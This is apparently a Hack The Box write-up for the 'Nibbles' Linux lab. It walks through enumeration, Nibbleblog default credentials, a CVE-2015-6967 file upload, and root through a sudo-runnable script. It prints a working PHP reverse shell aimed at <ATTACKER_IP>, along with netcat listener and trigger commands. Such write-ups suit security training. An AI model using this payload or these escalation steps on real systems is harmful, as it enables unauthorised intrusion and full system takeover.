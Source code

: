 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

---

### 🕵️ Enumeration

#### 🔍 Nmap Scan
```bash
sudo nmap -sV -sC -sS -oA scan/result $IP
```
Discovered open ports:
- **22/tcp** - [SSH](SSH)
- **80/tcp** - [HTTP](HTTP.md)

### 🌐 Web Enumeration
Visiting the site on port 80 reveals a PHP-based web application. View page source shows a hidden directory:

**Interesting Directory:** `/nibbleblog/`

#### 📂 Directory Fuzzing
```bash
gobuster dir --url "http://$IP/nibbleblog/" -w /usr/share/dirb/wordlists/small.txt -x php
```
Discovered:
- `/admin.php` – Admin login page

---

### 🔐 Exploitation

#### 🔑 Default Credentials & Exploit
- Found **default credentials**: `admin:nibbles`
- Confirmed to work on `/nibbleblog/admin.php`
- Vulnerable version: **Nibbleblog 4.0.3**
- Public exploit: CVE-2015-6967 – Arbitrary File Upload

#### 🐚 Reverse Shell Upload
Upload a PHP reverse shell through the **my_image** plugin:

**Payload (Replace IP and port):**
```php
<?php
// PHP Reverse Shell
$sock=fsockopen("<ATTACKER_IP>",9001);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Start listener:
```bash
nc -nlvp 9001
```

Trigger the shell:
```bash
curl http://$IP/nibbleblog/content/private/plugins/my_image/image.php
```

---

### 🧗 Privilege Escalation

#### 🔍 Finding Personal Files
Found file: `personal.zip`  
Unzipped it contains a **bash script** monitoring resources.

```bash
sudo -l
```
Shows we can run the monitoring script **as root without password**.

#### 🛠️ Modify Script
Append reverse shell code or just spawn root shell:
```bash
#!/bin/bash
bash
```
Upload and overwrite the original script. Then execute it with sudo:
```bash
sudo /path/to/monitoring_script.sh
```

### 🏁 Root Access
You now have a **root shell** on the machine.

---

### 📝 Summary
- Gained web access using default creds on Nibbleblog.
- Exploited CVE-2015-6967 to upload a reverse shell.
- Found a user-owned zip file containing a script run as root.
- Modified script to spawn a root shell.

Cheers 🥂

